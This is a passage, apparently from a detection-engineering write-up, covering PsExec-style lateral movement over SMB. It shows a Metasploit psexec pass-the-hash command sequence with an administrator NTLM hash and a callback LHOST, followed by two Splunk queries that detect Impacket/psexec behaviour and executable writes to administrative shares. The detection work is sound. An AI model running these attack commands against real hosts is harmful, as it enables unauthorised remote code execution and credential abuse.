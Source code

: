 Or via Metasploit:

```bash
use exploit/windows/smb/psexec
set RHOSTS 192.168.1.1
set SMBUser Administrator
set SMBPass :d2eafa9129913be5081371eb305a5fc3
set LHOST 192.168.1.4
run
```

---

## 🧠 Detection in Splunk

### 🔹 Possible Impacket Detection

```spl
index=* EventCode=1 
| eval parent=coalesce(ParentImage, "none"), exe=coalesce(Image, "none")
| where like(CommandLine, "%-ForceV1%") 
    AND like(exe, "%\\conhost.exe")
    AND (
        like(parent, "%\\cmd.exe") OR 
        like(parent, "%\\psexesvc.exe") OR 
        like(parent, "%\\wmiexec.py") OR
        like(parent, "%\\smbexec.py") OR 
        like(parent, "%\\impacket%") OR 
        match(ParentCommandLine, ".*cmd.*") OR 
        match(ParentCommandLine, ".*\\\\127\\.0\\.0\\.1\\\\.*")
    )
| eval action="possible_psexec_like_behavior"
| table _time, host, action, exe, CommandLine, parent, ParentCommandLine, User, ParentUser, process_id, ParentProcessId
| sort -_time
 
```

### 🔹 Executable Written to ADMIN Share

```spl
index=* EventCode=5145 Object_Type=File 
| eval share_lc=lower(Share_Name), file_lc=lower(Relative_Target_Name)
| where (like(share_lc, "\\\\%\\admin$") OR like(share_lc, "\\\\%\\ipc$") OR like(share_lc, "\\\\%\\c$"))
| where (like(file_lc, "%.exe") OR like(file_lc, "%.dll"))
| where Access_Mask="0x2"
| eval action="smb_file_write"
| stats 
    count by _time, host, Account_Name, Source_Address, Relative_Target_Name, Share_Name, Access_Mask, action
```
